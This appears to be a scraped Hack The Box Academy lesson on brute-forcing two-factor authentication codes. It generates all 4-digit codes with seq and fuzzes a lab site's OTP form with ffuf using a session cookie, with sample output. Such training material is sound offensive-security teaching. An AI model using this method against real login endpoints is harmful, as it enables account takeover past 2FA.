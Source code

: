 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/80/section/777
// Platform Version: V1
// Module ID: 80
// Module Name: Broken Authentication
// Module Difficulty: Medium
// Section ID: 777
// Section Title: Brute-Forcing 2FA Codes
// Page Title: Hack The Box - Academy
// Page Number: 6
-->

# Brute-Forcing 2FA Codes

**Module Name:** Broken Authentication **Page Number:** 6

#### 

#### BROKEN AUTHENTICATION

# Brute-Forcing 2FA Codes

## Attacking Two-Factor Authentication (2FA)

![https://academy.hackthebox.com/storage/modules/269/bf/bf_2fa_1.png](https://academy.hackthebox.com/storage/modules/269/bf/bf_2fa_1.png)

![https://academy.hackthebox.com/storage/modules/269/bf/bf_2fa_2.png](https://academy.hackthebox.com/storage/modules/269/bf/bf_2fa_2.png)

``` shell-session
ndefstathiou@htb[/htb]$ seq -w 0 9999 > tokens.txt
```

``` shell-session
ndefstathiou@htb[/htb]$ ffuf -w ./tokens.txt -u http://bf_2fa.htb/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=fpfcm5b8dh1ibfa7idg0he7l93" -d "otp=FUZZ" -fr "Invalid 2FA Code"

<SNIP>
[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 648ms]
    * FUZZ: 6513
[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 635ms]
    * FUZZ: 6514

<SNIP>
[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 1ms]
    * FUZZ: 9999
```

# 

# 

#### Questions

####